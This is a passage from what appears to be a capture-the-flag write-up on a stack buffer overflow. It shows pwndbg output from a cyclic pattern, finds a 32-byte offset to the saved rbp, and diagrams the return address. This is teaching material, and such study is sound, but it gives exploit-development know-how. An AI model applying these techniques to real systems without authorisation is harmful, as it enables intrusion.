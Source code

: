 ```
─────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffdc88 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaa'
01:0008│     0x7fffffffdc90 ◂— 'gaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaa'
02:0010│     0x7fffffffdc98 ◂— 'haaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaa'
03:0018│     0x7fffffffdca0 ◂— 'iaaaaaaajaaaaaaakaaaaaaalaaaaaaa'
04:0020│     0x7fffffffdca8 ◂— 'jaaaaaaakaaaaaaalaaaaaaa'
05:0028│     0x7fffffffdcb0 ◂— 'kaaaaaaalaaaaaaa'
06:0030│     0x7fffffffdcb8 ◂— 'laaaaaaa'
07:0038│     0x7fffffffdcc0 ◂— 0
───────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────
 ► 0         0x400741 pwnme+89
   1 0x6161616161616166
   2 0x6161616161616167
   3 0x6161616161616168
   4 0x6161616161616169
   5 0x616161616161616a
   6 0x616161616161616b
   7 0x616161616161616c
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Once the frame is collapsed, the `rbp` register has the value `0x6161616161616165` which is the ASCII representaion of `eaaaaaaa` in little endian format.

Let's find the offset of this value in our cyclic pattern.

```
pwndbg> cyclic -l 0x6161616161616165
Finding cyclic pattern of 8 bytes: b'eaaaaaaa' (hex: 0x6561616161616161)
Found at offset 32
```

So the offset is 32 bytes.

Let's see how this looks on the stack.

### Stack

```
<==: Value is stored at that location
<--: Points to the address

high    ----------------------------> low 
address                               address            
|	+---------------------------+ 
|	|  61 61 61 61 61 61 61 61  | <== buffer (32 bytes) <-- rsp
|	|  62 61 61 61 61 61 61 61  | 
|	|  63 61 61 61 61 61 61 61  |
|	|  64 61 61 61 61 61 61 61  |
|	+---------------------------+
|	|  65 61 61 61 61 61 61 61  | <== stored rbp <-- rbp
|	+---------------------------+
|	|  66 61 61 61 61 61 61 61  | <== return address
v	+---------------------------+
low
address
```
